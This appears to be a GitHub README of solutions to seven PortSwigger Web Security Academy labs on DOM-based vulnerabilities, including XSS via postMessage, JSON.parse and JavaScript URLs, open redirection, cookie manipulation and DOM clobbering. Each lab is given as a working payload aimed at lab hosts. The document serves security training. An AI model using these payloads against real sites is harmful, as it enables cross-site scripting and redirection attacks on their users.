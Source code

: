 
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Blue%20Gradient%20Modern%20LinkedIn%20Banner.jpg?raw=true)
# DOM-based vulnerabilities







## Lab-1 [https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages] , DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- Go to the exploit server

```bash
  <iframe src="https://0aad00a403ef4bdf809e85bb002400ca.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/portswigger%20lab.png?raw=true)

## Lab-2  , DOM XSS using web messages and a JavaScript URL

Go to the exploit server

```bash
  <iframe src="https://0a7300ab04ade806808f671e000300ee.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>

```
## Lab-3  , DOM XSS using web messages and JSON.parse

Go to the exploit server

```bash
  <iframe src=https://0aa000730357be3b8085a37700830016.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

```

## Lab-4  , DOM-based open redirection

Go to the Browser

```bash
https://0a3d009f041d7ba480b4088200c800c6.web-security-academy.net/post?postId=2&url=https://exploit-0a46008a047d7bb3808f07e7016200cf.exploit-server.net/

```
[YouTube video ](https://www.youtube.com/watch?v=pwM8cr_30hg)

## Lab-5  , DOM-based cookie manipulation

Go to the exploit server

```bash
 <iframe src="https://0ac2000304106e2d8031df12004800e4.web-security-academy.net/product?productId=11&'><script>print()</script>" onload="if(!window.x)this.src='https://0ac2000304106e2d8031df12004800e4.web-security-academy.net';window.x=1;"></iframe>

```
[YouTube video ](https://www.youtube.com/watch?v=pk3KjtoLMTc)


## Lab-6  , Exploiting DOM clobbering to enable XSS

Go to the exploit server

```bash
 <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
[YouTube video ](https://www.youtube.com/watch?v=INUvcWQ3Pmc)


## Lab-7  , Clobbering DOM attributes to bypass HTML filters

Go to the exploit server

```bash
 <form id=x tabindex=0 onfocus=print()><input id=attributes>
<iframe 

```

```bash
 src=https://0a71004004c1f848800fbc6e005100fe.web-security-academy.net/post?postId=10 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```
[YouTube video ](https://www.youtube.com/watch?v=34TB5FfNlko)




